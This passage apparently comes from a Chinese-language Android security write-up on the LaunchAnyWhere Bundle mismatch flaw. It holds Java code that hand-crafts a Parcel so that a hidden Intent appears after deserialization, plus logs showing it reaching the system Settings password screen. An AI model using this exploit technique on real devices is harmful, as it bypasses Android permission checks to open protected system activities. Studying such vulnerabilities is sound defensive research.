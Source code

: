 ```java
    exp.writeInt(0); //mSourceBounds = null
    exp.writeInt(0); // mCategories = null
    exp.writeInt(0); // mSelector = null
    exp.writeInt(0); // mClipData = null
    exp.writeInt(-2); // mContentUserHint
    exp.writeBundle(null);
    /**********************intent内容end*********************************/

    int intentEndOffset = exp.dataPosition();
    //将指针设置在intent数据之前，然后写入intent的大小
    exp.setDataPosition(intentSizeOffset);
    int intentSize = intentEndOffset - intentStartOffset;
    exp.writeInt(intentSize);
    Log.d("tanzhenxing33", "intentSize=" + intentSize);
    //写完之后将指针重置回原来的位置
    exp.setDataPosition(intentEndOffset);

    // 最后一个元素在错位之前会被当成最后一个元素，错位之后就会被忽略，因为前面已经读取的元素数已经足够
    String key3Name = "Padding-Key";
    //String key3Name = "padding";//hashcode排序失败
    exp.writeString(key3Name);
    exp.writeInt(-1);//VAL_NULL

    int length = exp.dataSize();
    bndlData.writeInt(length);
    bndlData.writeInt(0x4c444E42);//魔数
    bndlData.appendFrom(exp, 0, length);//写入数据总长度
    bndlData.setDataPosition(0);
    Log.d("tanzhenxing33", "length=" + length);
    bundle.readFromParcel(bndlData);
    return bundle;
}
```

我们将以上代码的到的`Bundle`进行一次序列化和反序列化查看里面的`key`和`Value`类型：
`main`:是刚构造出`Bundle`的`Activity`;
`TestBundleMismatchResultActivity`:是进行一次内核传输的到达的第二个`Activity`;

```log
D/tanzhenxing33: intentSize=324
D/tanzhenxing33: length=480
D/tanzhenxing33: file =/storage/emulated/0/Android/data/com.tzx.launchanywhere/cache/obj.pcl
D/tanzhenxing33: MyClass:Parcel:100
D/tanzhenxing33: main key = mismatch com.tzx.launchanywhere.MyClass
D/tanzhenxing33: main key = � [B
D/tanzhenxing33: main key = Padding-Key NULL
D/tanzhenxing33: MyClass:writeToParcel
D/tanzhenxing33: onCreate:TestBundleMismatchResultActivity
D/tanzhenxing33: MyClass:Parcel:100
D/tanzhenxing33: TestBundleMismatchResultActivity key = mismatch com.tzx.launchanywhere.MyClass
D/tanzhenxing33: TestBundleMismatchResultActivity key = intent android.content.Intent
D/tanzhenxing33: TestBundleMismatchResultActivity key =  [B
D/tanzhenxing33: result != null,Intent { act=android.intent.action.RUN flg=0x10000000 cmp=com.android.settings/.password.ChooseLockPassword }
```
